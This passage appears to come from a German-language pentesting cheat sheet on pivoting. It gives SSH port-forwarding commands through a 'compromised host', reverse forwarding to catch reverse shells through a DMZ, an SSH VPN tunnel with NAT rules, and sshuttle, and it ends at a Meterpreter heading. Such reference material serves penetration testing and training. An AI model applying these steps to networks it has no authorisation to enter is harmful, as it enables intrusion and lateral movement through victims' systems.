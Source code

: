 Lokaler Port --> Kompromittierter Host (SSH) --> Dritte\_Box:Port
```bash
ssh -i ssh_key <user>@<ip_compromised> -L <attacker_port>:<ip_victim>:<remote_port> [-p <ssh_port>] [-N -f]  #This way the terminal is still in your host
#Example
sudo ssh -L 631:<ip_victim>:631 -N -f -l <username> <ip_compromised>
```
### Port2hostnet (proxychains)

Lokaler Port --> Kompromittierter Host (SSH) --> Überall
```bash
ssh -f -N -D <attacker_port> <username>@<ip_compromised> #All sent to local port will exit through the compromised server (use as proxy)
```
### Reverse Port Forwarding

Dies ist nützlich, um Reverse-Shells von internen Hosts über eine DMZ zu Ihrem Host zu erhalten:
```bash
ssh -i dmz_key -R <dmz_internal_ip>:443:0.0.0.0:7000 root@10.129.203.111 -vN
# Now you can send a rev to dmz_internal_ip:443 and capture it in localhost:7000
# Note that port 443 must be open
# Also, remmeber to edit the /etc/ssh/sshd_config file on Ubuntu systems
# and change the line "GatewayPorts no" to "GatewayPorts yes"
# to be able to make ssh listen in non internal interfaces in the victim (443 in this case)
```
### VPN-Tunnel

Sie benötigen **Root-Rechte auf beiden Geräten** (da Sie neue Schnittstellen erstellen werden) und die sshd-Konfiguration muss Root-Login erlauben:\
`PermitRootLogin yes`\
`PermitTunnel yes`
```bash
ssh root@server -w any:any #This will create Tun interfaces in both devices
ip addr add 1.1.1.2/32 peer 1.1.1.1 dev tun0 #Client side VPN IP
ifconfig tun0 up #Activate the client side network interface
ip addr add 1.1.1.1/32 peer 1.1.1.2 dev tun0 #Server side VPN IP
ifconfig tun0 up #Activate the server side network interface
```
Aktivieren Sie das Forwarding auf der Server-Seite
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -s 1.1.1.2 -o eth0 -j MASQUERADE
```
Setzen Sie eine neue Route auf der Client-Seite
```
route add -net 10.0.0.0/16 gw 1.1.1.1
```
## SSHUTTLE

Sie können **tunneln** über **ssh** den gesamten **Verkehr** zu einem **Subnetz** über einen Host.\
Zum Beispiel, den gesamten Verkehr, der zu 10.10.10.0/24 geht, weiterleiten.
```bash
pip install sshuttle
sshuttle -r user@host 10.10.10.10/24
```
Mit einem privaten Schlüssel verbinden
```bash
sshuttle -D -r user@host 10.10.10.10 0/0 --ssh-cmd 'ssh -i ./id_rsa'
# -D : Daemon mode
```
## Meterpreter
